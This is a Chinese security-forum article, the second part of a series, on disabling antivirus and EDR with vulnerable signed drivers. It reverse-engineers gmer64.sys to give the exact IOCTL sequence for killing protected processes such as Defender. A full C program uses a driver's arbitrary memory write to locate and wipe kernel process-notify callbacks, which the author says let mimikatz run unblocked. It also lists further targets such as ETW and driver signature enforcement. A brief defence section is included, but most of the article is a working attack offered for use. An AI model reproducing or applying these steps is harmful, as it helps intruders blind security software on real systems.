


# 白驱动 Kill AV/EDR（下） - 先知社区

白驱动 Kill AV/EDR（下）

- - -

> 本文是白驱动Kill AV/EDR 的第二部分，将讨论利用白驱动致盲AV/EDR 的几种方式以及防御检测的方法。

[前文](https://xz.aliyun.com/t/12881)中已经提到，EDR 用户态进程受PPL 或驱动保护。除开某些在R3的Kill EDR 骚姿势外，干掉EDR 用户态进程或删除EDR的内核回调还得在驱动层实现。但是在绝大多数的实际环境中，无法直接加载自己写的驱动，因为在遇到的绝大多数Windows中，驱动必须有有效的签名才能进行加载。所以本文将会讨论如何挖掘并利用有签名的驱动来对抗杀软/EDR。

在开始之前，首先介绍驱动开发中的一个概念：DeviceIoControl 分发例程，同时再次说明一下用户态程序和驱动程序的通信逻辑。

大多数的驱动程序都会在`DriverEntry()`里创建设备对象、设备对象的符号链接、设置分发例程、Unload 例程等。创建设备对象后，每个驱动都需要实现`IRP_MJ_CREATE(0x00)`和`IRP_MJ_CLOSE(0x02)` 这两个分发例程函数（可参考上篇文章中的远程线程注入拦截的实现），不然用户态程序在与驱动通信时，无法打开驱动的设备对象句柄。

在用户态，有`WriteFile、ReadFile、DeviceIoControl`这三个基本函数可以与驱动程序通信。用户态程序向驱动程序发送数据（后面写利用代码需要向白驱动发送数据），大多数情况下用的是`DeviceIoControl`函数。从驱动程序读取数据一般用`ReadFile` 函数。

驱动程序为了能接收用户态程序发过来的数据，需要指定`IRP_MJ_DEVICE_CONTROL(0x0e)` 代码对应的分发例程（函数）。这样当用户态程序调用`DeviceIoControl` 向驱动程序发送数据时，驱动程序就会调用`IRP_MJ_DEVICE_CONTROL(0x0e)`指向的例程中去处理请求。

此外`DeviceIoControl` 函数的第二个参数是要求传入一个控制代码（IOCTL）。不同的IOCTL，标识了驱动程序中在`IRP_MJ_DEVICE_CONTROL` 分发例程（函数）中执行不同的操作。（后面对驱动程序进行反编译时便能进一步理解了）

## 利用有Kill 进程功能的驱动

有这种功能的驱动常见于杀软/EDR 的驱动、外设驱动、游戏反作弊的驱动等等。下面以 gmer64.sys 驱动为例，通过IDA 反编译挖掘出这个驱动的利用方法。

***Tips:*** gmer64.sys 驱动在高版本Windows 上加载会提示证书被吊销，同时也被多个杀软标记为恶意驱动。所以此样例仅做学习讨论之用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151805-4dd69eb0-762b-1.png)

首先分析驱动的导入表，找到调用了`ZwTerminateProcess()` 的函数，它是内核中用于终止进程的函数。（也有其他未导出函数可能可以利用）

如下图，定位到`sub_164C0`这个函数调用了`ZwTerminateProcess()`，`sub_164C0` 函数的参数是进程的PID，这个函数功能简单概括为传入要Kill 的进程PID 然后打开此进程的句柄，然后调用`ZwTerminateProcess()` 进行Kill。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151824-58fbf452-762b-1.png)

所以之后需要搞清楚怎么传入这个PID，以及如何才能走到调用`sub_164C0`函数的流程上来。首先通过IDA 的交叉引用，看看`sub_164C0` 这个函数的整个调用流。

现在沿着这个调用流，从DriverEntry()这个驱动入口函数开始，从上至下的进行分析调用逻辑。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151834-5f042f22-762b-1.png)

下面将DriverEntry() → sub\_1132C()函数的关键代码贴了出来，下图中的数字序号标识了函数的调用顺序。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151845-65a5d312-762b-1.png)

可以看到，2号窗口创建了`IRP_MJ_DEVICE_CONTROL(0x0e)` 分发例程，所以我们后续需要通过`DeviceIoControl` 向其传输数据。紧接着3号窗口进一步判断当分发例程为`14(0x0e)`时调用`sub_1132C()`。4号窗口可以看到，`sub_1132C()`函数就是根据不同的IOCTL 值调用对应方法进行处理。在`0x9876C094`这个IOCTL 下调用了`sub_164C0()` kill 指定进程。

到现在为止，我们知道了通过`DeviceIoControl` 函数并设置IOCTL为 `0x9876C094` ，即可调用驱动去kill 指定进程。但是目前还需要确定这个进程的PID 是什么格式传进去的，以及还有没有什么其他校验。

4号窗口中的a2值就是从IRP中读取到的进程PID，所以直接将ULONG 大小的PID值传给驱动程序即可。

***注：*** 上一层函数中发现MasterIrp被传给a2，这是其实是IDA 反编译的问题。由于MasterIrp和SystemBuffer共享同一个偏移量，所以这里其实传输的是SystemBuffer，也就是输入缓冲区的地址。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151900-6e6cfbce-762b-1.png)

但是发现调用返回失败，提示参数错误。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151909-742c0dd4-762b-1.png)

在仔细观察一下反编译的代码，发现在switch判断IOCTL 值之前还有一个校验，并且下图返回的标黄值0xC000000D(STATUS\_INVALID\_PARAMETER)刚好能对应得上报错。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151919-79dcdf9c-762b-1.png)  
看一下上面的代码逻辑，发现会判断`a6 == 0x9876C004` 然后初始化一个`dword_1C120`值，不然就会返回`0xC000000D` 。所以这里先设置IOCTL 为`0x9876C004` 发送一次请求，然后再设置IOCTL为 `0x9876C094` 去kill 进程。

下面来测试一下，首先尝试正常Kill Defender 的进程，如下图，失败。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151933-823008f4-762b-1.png)  
设置Pid，利用驱动成功Kill 指定进程。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151943-88207488-762b-1.png)  
Tips: 一般杀软/EDR Kill 之后都会重启（原理可以参考上篇文章），所以可以考虑循环Kill。

- - -

通过上面的通用思路能挖掘到不少可以利用的驱动，如下图是另一个可以利用的驱动反编译信息。

Kill 进程的函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029151955-8f54d848-762b-1.png)  
调用流：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152003-93e5ddd0-762b-1.png)  
这类驱动漏洞存在的主要问题是没有权限校验，导致任何一个进程都可以去调这个驱动的IOCTL。当然有的驱动有的做了相应的校验，比如需要将进程PID 注册到它的可信列表里才能调 IOCTL。但是可能存在绕过，例如它可能允许任意进程注册可信列表。

## 利用任意地址读写的驱动

上面的利用是靠驱动自带的终止进程功能去Kill 杀软/EDR 的用户态进程。下面将讨论如何利用任意地址读写的驱动来清除内核中杀软驱动注册的回调函数，从而致盲杀软的部分功能。首先以一个驱动举例，来看一下如何寻找存在任意地址读写的驱动。

和前面的分析相同，通过IDA 先去定位到分发例程为`14(0x0e)`的函数内容，去查找不同的IOCTL值对应的功能实现，如下图是对应的一个IOCTL的实现。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152013-9a046c5e-762b-1.png)  
可以看到此IOCTL 调用了`MmCopyVirtualMemory()`这个内核函数进行内存的拷贝。所以之后就根据它要求的参数格式，调用此IOCTL 就能进行任意地址读写。

***Tips:*** 当然不同的驱动可能还有其他的初始化过程或其他的校验，就像上面分析的gmer64.sys 驱动一样。所以当直接调用这个IOCTL 不成功时，还是需要去看看它的具体逻辑。

用于内存拷贝的函数不止这一个，如下图，是另一个驱动的利用函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152023-a0055712-762b-1.png)

- - -

上一篇文章中通过`PsSetCreateThreadNotifyRoutine()`注册了线程通知的回调，实现了远程线程注入的监控。那么通过任意地址写，能不能将进程、线程这类回调函数给禁用呢？如果能修补此类回调，就能削弱杀软/EDR 部分功能。

驱动程序可以通过`PsSetCreateProcessNotifyRoutine()` 注册进程通知的回调函数，这样能在进程创建销毁时得到通知。下面以修补进程回调为例，来讨论一下实现的原理。（修补线程、图像加载通知是同理的）

***Tips:*** 需要注意下面几个函数名比较容易混淆。

`PspCreateProcessNotifyRoutine` 是一个最大为64的结构体指针数组。创建/终止进程时，`PspCallProcessNotifyRoutines`会遍历此数组并调用系统上驱动程序注册的所有回调。所以如果能够修补此数组上的杀软回调那么就能使其监控进程的功能失效。

首先需要计算`PspCreateProcessNotifyRoutine`数组在内存中的位置才能进行修改，能想到的是`PsSetCreateProcessNotifyRoutine()` 这个注册进程回调的函数肯定会用到此数组。

先反汇编一下`PsSetCreateProcessNotifyRoutine()` 函数，发现比较简单，里面调用了`PspSetCreateProcessNotifyRoutine()` 函数。继续反汇编`PspSetCreateProcessNotifyRoutine()`函数发现在此函数中汇编指令lea将`PspCreateProcessNotifyRoutine`数组的地址保存到了R13寄存器中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152037-a89a720e-762b-1.png)

然后继续跟进PspCreateProcessNotifyRoutine数组地址。此数组内容中的结构体指针地址最后4位没有意义，所以通过移位操作去掉，最后获得的就是结构体的内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152051-b0d38b40-762b-1.png)

此结构体为`EX_CALLBACK_ROUTINE_BLOCK` ，它是没有记录。但是ReactOS给了它定义：

```plain
typedef struct _EX_CALLBACK_ROUTINE_BLOCK {
    EX_RUNDOWN_REF RundownProtect;
    PEX_CALLBACK_FUNCTION Function;
    PVOID Context;
} EX_CALLBACK_ROUTINE_BLOCK, *PEX_CALLBACK_ROUTINE_BLOCK;
```

该结构体前8位是`EX_RUNDOWN_REF` 结构，可以忽略，后面的`PEX_CALLBACK_FUNCTION` 就是回调函数的地址，如上图。

拿到这个回调函数地址之后可以利用驱动的任意地址写向其写入0或ret指令，来使其失效。话不多说，下面来看一下代码实现。

```plain
#include "header.h"
HANDLE hDevice = NULL;
HANDLE Process = NULL;

PVOID GetNtoskrnlBase() {
    PRTL_PROCESS_MODULES ModuleInfo = (PRTL_PROCESS_MODULES)calloc(1024 * 1024,1);
    NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11, ModuleInfo, 1024*1024, NULL);
    if (!NT_SUCCESS(status)) {
        return 0;
    }

    for (int i = 0; i < ModuleInfo->NumberOfModules; i++)
    {
        if (lstrcmpiA((LPCSTR)(ModuleInfo->Modules[i].FullPathName + ModuleInfo->Modules[i].OffsetToFileName), "ntoskrnl.exe") == 0) {

            return ModuleInfo->Modules[i].ImageBase;
        }
    }
    return 0;
}
INT64 GetFuncAddress(CHAR* FuncName) {

    PVOID KBase=GetNtoskrnlBase();
    if (KBase == 0) {
        printf("未找到ntoskrnl.exe基地址\n");
        return 0;
    }
    HMODULE ntos = LoadLibraryA("ntoskrnl.exe");
    ULONG PocAddress = (ULONG)GetProcAddress(ntos, FuncName);
    ULONG Offset = PocAddress - (ULONG)ntos;
    return (INT64)KBase+Offset;
}
INT64 GetPspCreateProcessNotifyRoutineArray() {
    INT64 PsSetCallbacksNotifyRoutineAddress = GetFuncAddress((CHAR*)"PsSetCreateProcessNotifyRoutine");
    if (PsSetCallbacksNotifyRoutineAddress == 0) return 0;
    //定位PspSetCreateProcessNotifyRoutine函数地址
    INT count = 0;
    BYTE* buffer = (BYTE*)malloc(1);
    while (1) {
        DriverReadMemery((VOID*)PsSetCallbacksNotifyRoutineAddress, buffer,1);
        if (*buffer == 0xE8 || *buffer == 0xE9) {
            break;
        }
        PsSetCallbacksNotifyRoutineAddress = PsSetCallbacksNotifyRoutineAddress + 1;
        if (count == 200) {
            printf("未找到Pspsetcreateprocessnotifyroutine 函数地址\n");
            return 0;
        }
        count++;
    }

    //获取Pspsetcreateprocessnotifyroutine 函数的偏移地址
    UINT64 PspOffset = 0;
    for (int i = 4, k = 24; i > 0; i--, k = k - 8){

        DriverReadMemery((VOID*)(PsSetCallbacksNotifyRoutineAddress + i), buffer, 1);
        PspOffset = ((UINT64)*buffer << k) + PspOffset;
    }
    // 检查符号位
    if ((PspOffset & 0x00000000ff000000) == 0x00000000ff000000)
        PspOffset = PspOffset | 0xffffffff00000000; // 负偏移情况下的符号扩展

    INT64 PspSetCallbackssNotifyRoutineAddress = PsSetCallbacksNotifyRoutineAddress + PspOffset + 5;

    //printf("PspSetCallbackssNotifyRoutineAddress: %I64x\n", PspSetCallbackssNotifyRoutineAddress);

    //获取PspCreateProcessNotifyRoutineArray 数组地址
    //寻找lea 指令 来定位数组地址
    BYTE SearchByte1 = 0x4C;
    BYTE SearchByte2 = 0x8D;
    BYTE bArray[3] = {0};
    count = 0;
    INT64 back = PspSetCallbackssNotifyRoutineAddress;
    BOOL stop = FALSE;
    while (count <= 200) {
        DriverReadMemery((VOID*)PspSetCallbackssNotifyRoutineAddress, bArray, 3);
        if (bArray[0] == SearchByte1 && bArray[1] == SearchByte2) {

            if ((bArray[2] == 0x0D) || (bArray[2] == 0x15) || (bArray[2] == 0x1D) || (bArray[2] == 0x25) || (bArray[2] == 0x2D) || (bArray[2] == 0x35) || (bArray[2] == 0x3D))
            {
                break;
            }
        }
        PspSetCallbackssNotifyRoutineAddress = PspSetCallbackssNotifyRoutineAddress + 1;
        if (count == 200)
        {
            SearchByte1 = 0x48;
            count = -1;
            PspSetCallbackssNotifyRoutineAddress = back;
            if (stop)
            {
                printf("未找到lea 指令，无法定位PspSetCallbackssNotifyRoutineAddress 数组\n");
                return 0;
            }
            stop = true;
        }
        count++;
    }

    PspOffset = 0;
    for (int i = 6, k = 24; i > 2; i--, k = k - 8) {

        DriverReadMemery((VOID*)(PspSetCallbackssNotifyRoutineAddress + i), buffer, 1);
        PspOffset = ((UINT64)*buffer << k) + PspOffset;
    }

    if ((PspOffset & 0x00000000ff000000) == 0x00000000ff000000)
        PspOffset = PspOffset | 0xffffffff00000000; 

    INT64 PspCreateProcessNotifyRoutineAddress = PspSetCallbackssNotifyRoutineAddress + PspOffset + 7;

    return PspCreateProcessNotifyRoutineAddress;
}

int main()
{   
    Process = InitialDriver();
    if (!Process) return 0;
    INT64 PspCreateProcessNotifyRoutineAddress = GetPspCreateProcessNotifyRoutineArray();
    if (!PspCreateProcessNotifyRoutineAddress) {
        printf("Exit1\n");
        return 0;
    }
    printf("PspCreateProcessNotifyRoutineAddress: %I64x\n", PspCreateProcessNotifyRoutineAddress);

    INT64 buffer = 0;
    //展示所有注册进程回调的驱动
    printf("注册了进程回调的驱动基地址及其名称: \n----------------------------------------------------\n");
    for (int k = 0; k < 64; k++)
    {
        DriverReadMemery((VOID*)(PspCreateProcessNotifyRoutineAddress +(k * 8)), &buffer, 8);
        if (buffer == 0) continue;
        INT64 tmpaddr = ((INT64)buffer >> 4) << 4;
        DriverReadMemery((VOID*)(tmpaddr + 8), &buffer, 8);
        INT64 DriverCallBackFuncAddr = (INT64)buffer;
        DisplayDriverName(DriverCallBackFuncAddr);
    }
    printf("----------------------------------------------------\n以上不保证完全准确\n");

    //清除全部驱动的进程回调
    BYTE* data = (BYTE*)calloc(1, 1);
    for (int i = 0; i < 64; i++)
    {
        DriverReadMemery(data, (VOID*)(PspCreateProcessNotifyRoutineAddress + (i * 8)), 8);
    }
    printf("[Success] 进程回调清除完成\n");
    system("pause");
}
```

代码中的`DriverReadMemery()` 就是利用驱动进行读写的利用函数，具体实现要根据不同驱动情况来写。此外代码中最后清除的是全部驱动的进程回调，实际环境中需要根据驱动来进行清除，不然会导致系统某些功能出问题（目前发现清除全部会断网）。

以下面一个杀软的进程回调函数为例，一般情况下打开原生的mimikatz 必然被拦截。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152108-baffc8d6-762b-1.png)

执行上面的代码之后，成功打开mimikatz。并且还可以观察到安全防护中心的很多防护都关掉了，并且也无法手动打开，只有重启才能恢复。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029152119-c13b065c-762b-1.png)

仅修补进程回调能瘫痪哪些功能还需要进一步测试，对于仅修补进程回调而言，**不同的杀软/EDR 受影响的效果也不一样**。例如上面的杀软修补进程回调以后，连明显特征的病毒文件删除不了（全盘扫描能检测，而强力粉碎也无法删除）。但是杀软/EDR 完全可以利用文件系统的微过滤驱动程序来捕获新落地的文件，检查其静态病毒特征并删除。所以不同的杀软/EDR 某些地方的效果有差异。

**其他利用姿势**

除了修补进程回调以外，还可以进一步修补线程的回调、映像载入的回调、对象和注册表的回调等，这些杀软/EDR 驱动会注册的回调。其次，还可以利用任意地址读写去禁用ETW、禁用DSE（注意PatchGuard）去加载不带签名的驱动、修改进程句柄权限使其能够Kill 杀软/EDR 进程等等。

## 防御检测

分析了利用原理，还需要考虑杀软/EDR 可能的防御手段。以下探讨理论性的可能方案，不保证在实际环境中的真实性（实际中可能要考虑平衡性等因素）。

1.  **SSDT Hook 技术检测**  
    32位的Windows 可以直接挂钩SSDT 来监测内核函数调用。64位的Windows 可以尝试Bypass PathGuard（例如内存中禁用PG、在PG检查时间之前摘勾等） 去挂钩SSDT。
    
    挂钩SSDT 的防御原理也很简单：SSDT 表保存了非用户界面相关的系统服务函数等信息，前面利用的`ZwTerminateProcess()` 也在其中。首先保存原本的`ZwTerminateProcess()` 函数地址，并将其原来的地址替换为自己实现的函数地址。函数在调用原本的`ZwTerminateProcess()` 函数之前，判断Kill 的是否是自己EDR的进程，如果是则不调用原本的`ZwTerminateProcess()` 函数。
    
2.  **硬件虚拟化技术（Intel VT /AMD SVM）检测**
    
    硬件是实现虚拟化的基础，硬件(主要是CPU)会为虚拟化软件提供支持，从而实现硬件资源的虚拟化，它可以让一个CPU工作起来像多个CPU在并行运行。
    
    例如Intel VT，它将操作系统、R0、R3变成了Guest，建立了特权层（VMM）用于监控Guest执行，也提供了对特殊指令的截获和重定向的支持。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231029152134-ca076c62-762b-1.png)  
    利用VT 技术可以通过MSR Hook/EPT Hook 实现64位操作系统的无痕SSDT Hook（绕过PathGuard）、内核提权检测等技术。
    
3.  **过滤驱动程序检测**
    
    可以通过构建一个通用的过滤驱动程序附加到指定设备上，这样就能拦截到发往这个设备的请求（IRP），包括前面的我们向白驱动发送进程PID的请求。
    
4.  **驱动程序可以检查回调函数是否被修改**
    

## 总结

相比于直接Kill 杀软/EDR 进程，利用任意地址读写去修补回调相对来说比较麻烦，禁用的功能可能不全，并且实现起来可能有系统版本兼容的问题（上面的代码仅在win10 和 win11 测过）。

但是直接Kill 进程会导致EDR 在总控显示掉线，这可能引起管理员的注意。利用驱动的任意地址读写，它不操作3环进程，不影响进程与总控通信。而是直接修改EDR 的驱动，使EDR 无法收集到例如主机上的进程活动等攻击行为，真正意义上的致盲。

此外，对于一些登录RDP 有二次认证的机器，Kill EDR 可以使其功能失效。

微软的VBS和某数字安全厂商的\*晶都利用到了硬件虚拟化技术，理论上它们如果通过Hook SSDT 等方式保护其用户态进程，那就上面的方式就玩不动了。上述方法仅目前来说有效，且用且珍惜。

## 参考

1.  [Windows Kernel Ps Callbacks Experiments](http://blog.deniable.org/posts/windows-callbacks/)
2.  [Silencing the EDR. How to disable process, threads and image-loading detection callbacks](https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/)
3.  [Removing-Kernel-Callbacks-Using-Signed-Drivers](https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/)
4.  [EchOh-No! a Vulnerability and PoC demonstration in a popular Minecraft AntiCheat tool](https://ioctl.fail/echo-ac-writeup/)
